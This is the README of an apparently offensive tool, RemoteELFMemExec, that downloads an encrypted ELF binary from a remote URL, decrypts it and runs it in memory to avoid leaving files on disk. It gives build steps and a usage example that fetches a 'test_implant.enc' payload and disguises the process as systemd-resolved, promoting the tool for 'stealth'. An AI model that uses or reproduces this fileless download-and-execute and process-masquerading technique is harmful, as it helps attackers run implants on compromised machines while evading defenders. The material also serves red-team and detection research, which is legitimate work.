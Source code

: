 
# RemoteELFMemExec

**RemoteELFMemExec** is a tool designed to download, decrypt, and execute ELF binaries directly in memory from a remote URL. This utility enables the execution of executable files without writing them to disk, leveraging memory-based execution for enhanced stealth and efficiency. The tool uses XOR encryption to securely decrypt the ELF binary before execution.


> **⚠️ Warning:** On legacy systems, such as CentOS 6, it is not possible to execute ELF files directly in memory due to the lack of support for the `memfd_create` function, introduced in Linux 3.17. In these environments, the process downloads the encrypted ELF file to disk, decrypts it, executes it, and then deletes it.



## Compilation

### Requirements

Before compiling, ensure you have the following packages installed:

- `gcc`
- `make`
- `libcurl4-openssl-dev`


### Debug Mode
```bash

make

```
**⚠️ Warning:** To enable static compilation, you must compile `lcurl` as a static library.
### Static Compilation
```bash

make  static

```
### Legacy Systems
```bash

make  legacy

```
### Static Compilation for Legacy Systems
```bash

make  legacy_static

```
## Usage
```bash

./elfMemExecutor  <Url>  <Key>  <Alias_process>

```
## Example
```bash

./elfMemExecutor  http://192.168.1.190/test_implant.enc  0331afffba74a654b4e8  "/lib/systemd/systemd-resolved"

```
### Example Debug Mode
![image](https://github.com/user-attachments/assets/2d24acdb-6623-438e-904d-55094cf02396)


### Example Static 
![image](https://github.com/user-attachments/assets/6991bee4-2f0e-4d95-8812-7ee810b4afaa)

### Example Legacy 
![image](https://github.com/user-attachments/assets/905d9cad-0181-4b85-b83f-401228839c6c)

